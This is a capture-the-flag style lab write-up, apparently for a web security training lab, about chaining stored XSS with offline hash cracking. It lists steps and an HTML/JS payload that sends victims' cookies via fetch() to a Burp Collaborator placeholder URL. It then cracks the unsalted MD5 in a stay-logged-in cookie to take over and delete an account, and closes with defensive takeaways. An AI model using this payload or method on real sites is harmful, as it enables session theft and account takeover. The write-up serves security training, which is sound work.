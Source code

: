 # LAB: Offline password cracking

## Given:

- Target website stores user passwords as hashes.
- The lab contains an XSS vulnerability in the comments section.
- Credentials provided for `wiener: peter`.
- Target username: `carlos`.

## Objective:

- Obtain the `stay-logged-in` cookie of the target user `carlos`.
- Delete the account of user `carlos`.

## Key Concepts:

- XSS can be used to exfiltrate cookies and session data from other users.
- Persistent login cookies (`stay-logged-in`) may contain sensitive information, such as hashed passwords.
- Weak hashing (e.g., unsalted MD5) makes offline password cracking feasible.

## Steps Taken:

1. Proxy browser traffic through Burp Suite to intercept and analyze requests.
2. Log in with `wiener: peter` and explore the application, noting `/my-account` and the account deletion feature.
3. Observe that deleting an account requires entering the user's password for confirmation.
4. Use Burp Collaborator to generate a unique link for exfiltration.
5. Identify the XSS vulnerability in the comments section (textarea field).
6. Inject the following payload to exfiltrate cookies:
   ```html
   </textarea><script>
   fetch("https://<burp-collaborator-link>", {
     method: "POST",
     body: document.cookie,
     mode: "no-cors"
   })
   </script>
   ```
7. Submit the comment and monitor Burp Collaborator for incoming requests from other users.
8. When a request arrives, extract the session and `stay-logged-in` cookie values for the target user (`carlos`).
9. Decode the `stay-logged-in` cookie (often Base64 encoded). Format is typically `carlos:<hashed_value>`.
10. Attempt to crack the hash using online databases or hash-cracking tools (MD5 in this case).
11. Use the cracked password to log in as `carlos`.
12. Navigate to the account deletion page and enter the cracked password to delete the account.

## Payloads Used:

| Payload # | Purpose                    | Example/Usage                                   |
| --------- | -------------------------- | ----------------------------------------------- |
| 1         | Exfiltrate cookies via XSS | See above HTML/JS payload for Burp Collaborator |

## Issues Encountered:

- Ensuring the XSS payload executed for the target user.
- Decoding and cracking the hash format of the cookie value.

## Solutions/Workarounds:

- Use Burp Collaborator to confirm exfiltration.
- Try multiple hash algorithms and online databases for cracking.

## Takeaways:

- XSS vulnerabilities can be leveraged to steal sensitive cookies and session data.
- Persistent cookies like `stay-logged-in` are a prime target for attackers.
- Weak or predictable cookie formats (e.g., unsalted MD5) are easily cracked offline.
- Always use strong, salted hashes for sensitive data.
- Account management features (like deletion) should require robust authentication.
- Regularly test for XSS and weak cookie management in web applications.
